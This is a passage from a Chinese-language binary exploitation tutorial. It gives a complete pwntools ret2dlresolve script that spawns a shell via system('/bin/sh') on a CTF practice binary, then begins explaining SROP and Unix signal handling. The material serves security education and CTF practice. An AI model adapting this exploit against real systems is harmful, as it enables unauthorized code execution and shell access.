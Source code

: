 #### pwntools Ret2dlresolvePayload 函数

pwntools 在某个版本也集成支持了 ret2dlresolve 的 payload 生成函数，完整脚本如下:

```python
from pwn import *

elf = ELF('main')
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol= 'system', args=["/bin/sh"])

rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

raw_rop = rop.chain()
p = elf.process()
payload = {
    0x6c+4: raw_rop,
    0x100:  dlresolve.payload
}

payload = fit(payload)

p.recvuntil('Welcome to XDCTF2015~')
p.sendline(payload)

p.interactive()
```



## SROP

### 基本介绍

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit Amsterdam的Erik Bosman提出，其相关研究**`Framing Signals — A Return to Portable Shellcode`**发表在安全顶级会议[Oakland 2014](http://www.ieee-security.org/TC/SP2014)上，被评选为当年的[Best Student Papers](http://www.ieee-security.org/TC/SP2014/awards.html)。其中相关的paper以及slides的链接如下：

[paper](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)

[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

其中，`sigreturn`是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

### signal机制

 signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

![Process of Signal Handlering](./figure/ProcessOfSignalHandlering.png)